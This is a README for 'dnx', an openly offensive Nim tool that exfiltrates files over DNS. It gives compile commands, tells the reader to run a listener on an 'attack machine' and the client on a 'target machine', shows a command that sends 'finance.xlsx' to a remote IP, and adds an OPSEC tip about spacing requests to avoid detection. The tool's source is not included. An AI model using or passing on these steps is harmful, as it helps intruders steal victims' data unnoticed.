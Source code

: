 # dnx
Data exfiltration over DNS without the need for a domain.

### Compile
install the dependencies
```
nimble install ndns
nimble install zippy
```

Nim is cross compilation, compile according to your platform (e.g for Windows x64):
```
nim c -d:mingw -d:release --app:console --opt:size --cpu:amd64 ./dnx.nim
nim c -d:mingw -d:release --app:console --opt:size --cpu:amd64 ./dnxsvr.nim
```

### Instructions
Run dnxsvr on the attack machine:
```
.\dnxsvr.exe
```

Run dnx on the target machine:
```
.\dnx.exe
[!] Use: dnx.exe <IP> <File> <Time between requests in ms>
[!] e.g: dnx.exe 127.0.0.1 file.pdf 1000

.\dnx.exe 192.168.0.100 finance.xlsx 500
```

OPSEC:
The longer the time between requests, the more opsec!

### Inspired by
[Offensive Nim - dns_exfiltrate.nim](https://github.com/byt3bl33d3r/OffensiveNim/blob/master/src/dns_exfiltrate.nim)
